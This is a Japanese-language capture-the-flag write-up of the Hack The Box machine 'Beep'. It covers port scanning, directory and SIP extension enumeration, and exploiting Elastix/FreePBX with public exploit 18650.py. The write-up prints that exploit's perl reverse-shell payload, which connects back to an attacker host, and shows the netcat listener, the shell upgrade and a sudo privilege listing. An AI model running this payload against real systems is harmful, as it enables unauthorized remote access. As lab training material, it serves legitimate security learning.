


# beep

【偵察】

```bash
$ sudo nmap -sC -sV -O -oA initial 10.10.10.7                                                       
[sudo] kali のパスワード:                                                                             
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-02 17:38 JST
Stats: 0:04:16 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan                           
NSE Timing: About 79.00% done; ETC: 17:42 (0:00:06 remaining)                                         
Nmap scan report for 10.10.10.7                                                                       
Host is up (0.32s latency).                                                                           
Not shown: 988 closed tcp ports (reset)                                                               
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIM
E, DSN
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_pop3-capabilities: USER IMPLEMENTATION(Cyrus POP3 server v2) TOP LOGIN-DELAY(0) APOP STLS RESP-CODES
 AUTH-RESP-CODE UIDL EXPIRE(NEVER) PIPELINING
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            876/udp   status
|_  100024  1            879/tcp   status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_imap-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_imap-capabilities: IMAP4rev1 THREAD=REFERENCES BINARY RENAME IDLE ANNOTATEMORE Completed LITERAL+ UI
DPLUS MULTIAPPEND X-NETSCAPE QUOTA LIST-SUBSCRIBED RIGHTS=kxte LISTEXT STARTTLS NO CONDSTORE NAMESPACE
 ATOMIC OK IMAP4 THREAD=ORDEREDSUBJECT URLAUTHA0001 SORT SORT=MODSEQ ACL CHILDREN ID UNSELECT MAILBOX-
REFERRALS CATENATE
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinc
eName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_http-server-header: Apache/2.2.3 (CentOS)
|_ssl-date: 2022-08-02T08:42:25+00:00; 0s from scanner time.
|_http-title: Elastix - Login page
| http-robots.txt: 1 disallowed entry 
|_/
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
|_ssl-known-key: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
3306/tcp  open  mysql      MySQL (unauthorized)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Device type: general purpose|media device|PBX|WAP|specialized|printer|storage-misc|proxy server
Running (JUST GUESSING): Linux 2.6.X|2.4.X (95%), Linksys embedded (94%), Riverbed RiOS (94%), HP embe
dded (94%), Thecus embedded (93%), WebSense embedded (93%)
OS CPE: cpe:/o:linux:linux_kernel:2.6.18 cpe:/o:linux:linux_kernel:2.6.27 cpe:/o:linux:linux_kernel:2.
4.32 cpe:/h:linksys:wrv54g cpe:/o:riverbed:rios cpe:/h:thecus:4200 cpe:/h:thecus:n5500 cpe:/o:linux:li
nux_kernel:2.6
Aggressive OS guesses: Linux 2.6.18 (95%), Linux 2.6.9 - 2.6.24 (95%), Linux 2.6.9 - 2.6.30 (95%), Lin
ux 2.6.27 (95%), Linux 2.6.30 (95%), Linux 2.6.5 - 2.6.12 (95%), Linux 2.6.5-7.283-smp (SuSE Enterpris
e Server 9, x86) (95%), Linux 2.6.8 (Debian 3.1) (95%), Linux 2.6.9-22.0.1.EL (CentOS 4.4) (95%), Linu
x 2.6.18 - 2.6.32 (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 350.57 seconds
```

```bash
sudo nmap -sS -n -vvv -p- 10.10.10.7
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-02 17:38 JST
Initiating Ping Scan at 17:38
Scanning 10.10.10.7 [4 ports]
Completed Ping Scan at 17:38, 0.21s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 17:38
Scanning 10.10.10.7 [65535 ports]
Discovered open port 80/tcp on 10.10.10.7
Discovered open port 3306/tcp on 10.10.10.7
Discovered open port 443/tcp on 10.10.10.7
Discovered open port 22/tcp on 10.10.10.7
Discovered open port 25/tcp on 10.10.10.7
Discovered open port 111/tcp on 10.10.10.7
Discovered open port 143/tcp on 10.10.10.7
Discovered open port 110/tcp on 10.10.10.7
Discovered open port 995/tcp on 10.10.10.7
Discovered open port 993/tcp on 10.10.10.7
SYN Stealth Scan Timing: About 17.99% done; ETC: 17:41 (0:02:21 remaining)
Increasing send delay for 10.10.10.7 from 0 to 5 due to max_successful_tryno increase to 4
```

```bash
──(kali㉿kali)-[~/Documents/HTB/beep]
└─$ sudo nmap -sU -O -oA nmap/udp 10.10.10.7
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-02 17:40 JST
Nmap scan report for 10.10.10.7
Host is up (0.36s latency).
Not shown: 994 closed udp ports (port-unreach)
PORT      STATE         SERVICE
69/udp    open|filtered tftp
111/udp   open          rpcbind
123/udp   open          ntp
5000/udp  open|filtered upnp
5060/udp  open|filtered sip
10000/udp open          ndmp
Too many fingerprints match this host to give specific OS details
Network Distance: 2 hops

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1042.21 seconds

```


ボタンをクリックしていってリスクを許容していくと以下画面が表示されseる


```bash
┌──(kali㉿kali)-[~/Documents/HTB/beep]
└─$ searchsploit Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
Exploits: No Results
Shellcodes: No Results
```

```bash
┌──(kali㉿kali)-[~/Documents/HTB/beep]
└─$ searchsploit Apache httpd 2.2.3
Exploits: No Results
Shellcodes: No Results
```

```
===============================================================
2022/08/02 18:14:23 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 310] [--> https://10.10.10.7/images/]
/help                 (Status: 301) [Size: 308] [--> https://10.10.10.7/help/]  
/themes               (Status: 301) [Size: 310] [--> https://10.10.10.7/themes/]
/modules              (Status: 301) [Size: 311] [--> https://10.10.10.7/modules/]
/mail                 (Status: 301) [Size: 308] [--> https://10.10.10.7/mail/]   
/admin                (Status: 301) [Size: 309] [--> https://10.10.10.7/admin/]  
/static               (Status: 301) [Size: 310] [--> https://10.10.10.7/static/] 
/lang                 (Status: 301) [Size: 308] [--> https://10.10.10.7/lang/]   
/var                  (Status: 301) [Size: 307] [--> https://10.10.10.7/var/]    
/panel                (Status: 301) [Size: 309] [--> https://10.10.10.7/panel/]  
/libs                 (Status: 301) [Size: 308] [--> https://10.10.10.7/libs/]  
```

* dir :　uses directory/file brute forcing mode
* -w :　path to wordlist
* -u :     target URL or Domain
* -k :     skip SSL certificate verification

```bash
└─$ searchsploit elastix
-------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                      |  Path
-------------------------------------------------------------------- ---------------------------------
Elastix - 'page' Cross-Site Scripting                               | php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilities             | php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilities       | php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion                    | php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                                   | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                                  | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution              | php/webapps/18650.py
-------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```



* 10000ポートの確認


Webmin server：LinuxなどのUnix系オペレーティングシステムを設定できるウェブブラウザベースのツール。

既成(off the shelf software)なのでsearchsploitしてみる。


cgiのスクリプトの脆弱性がメンションされている。→ShellShock vulnerabilityを疑うべき

## Solution #1

443の脆弱性を利用する

```bash
┌──(kali㉿kali)-[~/Documents/HTB/beep]
└─$ searchsploit -m 18650
  Exploit: FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/18650
     Path: /usr/share/exploitdb/exploits/php/webapps/18650.py
File Type: Python script, ASCII text executable, with very long lines (418)

Copied to: /home/kali/Documents/HTB/beep/18650.py
```

* 18650.pyのURLをデコード

  ```http
  https://' str(rhost) '/recordings/misc/callme_page.php?action=c&callmenum=' str(extension) '@from-internal/n
  Application: system
  Data: perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"' str(lhost) ':' str(lport) '");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
  ```

* pythonファイルの実行

  ```bash
  └─$ python  18650.py
  Traceback (most recent call last):
    File "18650.py", line 30, in <module>
      urllib.urlopen(url)
  AttributeError: module 'urllib' has no attribute 'urlopen'
  ```

  urlopenは2.6で廃止されているようなので、その前のpythonをpyenvでダウンロードする

  ```bash
  pyenv install 2.5.0
  ```

  * import sslでエラーになる。一旦burpにリクエストしてからsslで接続する方針に変える。
  * pythonファイルを書き換える
  
  
  
  * burpのプロキシ設定を変更する。
  
  


[SIP（Session Initiation Protocol)](https://atmarkit.itmedia.co.jp/aig/06network/sip.html)

[PBX(Private Branch Exchange)：電話交換機](https://it-trend.jp/pbx/article/240-0033)

lineがbusyというresponseが返却されているため、sipviciousツールを利用して、実際に動いているextention番号を調査することにする。

```bash
python svwar.py -m INVITE -e100-500 10.10.10.7
```

https://github.com/EnableSecurity/sipvicious/wiki/SVCrack-Usage

-m : METHODを指定する

-e：EXTENTIONを指定する

```bash
python setup.py install
```

```bash
pip install .
```

```bash
+-----------+----------------+
| Extension | Authentication |
+===========+================+
| 141       | weird          |
+-----------+----------------+
| 131       | weird          |
+-----------+----------------+
| 156       | weird          |
+-----------+----------------+
| 152       | weird          |
+-----------+----------------+
| 309       | weird          |
+-----------+----------------+
| 310       | weird          |
+-----------+----------------+
| 352       | weird          |
+-----------+----------------+
```

```bash
┌──(kali㉿kali)-[~/Documents/privshell/sipvicious/sipvicious]
└─$ python svwar.py -m INVITE -e100-500 10.10.10.7
WARNING:TakeASip:using an INVITE scan on an endpoint (i.e. SIP phone) may cause it to ring and wake up people in the middle of the night
+-----------+----------------+
| Extension | Authentication |
+===========+================+
| 233       | reqauth        |
+-----------+----------------+
```

extensionを233に変更して再度実行してみる。

```bash
python 18650.py
```

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.16.9] from (UNKNOWN) [10.10.10.7] 33126
whoami
asterisk

```

相互シェルをとる

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

```
ctrl + z
stty raw -echo
fg
```

```bash
export TERM=xterm
```

* root権限で実行できるコマンド一覧を表示する

```bash
bash-3.2$ sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
```

sudo chmod 777でroot.txtを変更しようとするとOperation not permitedと表示される。sudo権限なのになぜ。FreeBSDの場合、flagという概念があるらしいが　ls -loしてもわからないし結局root.txtをこの方法で奪取することができなかった。


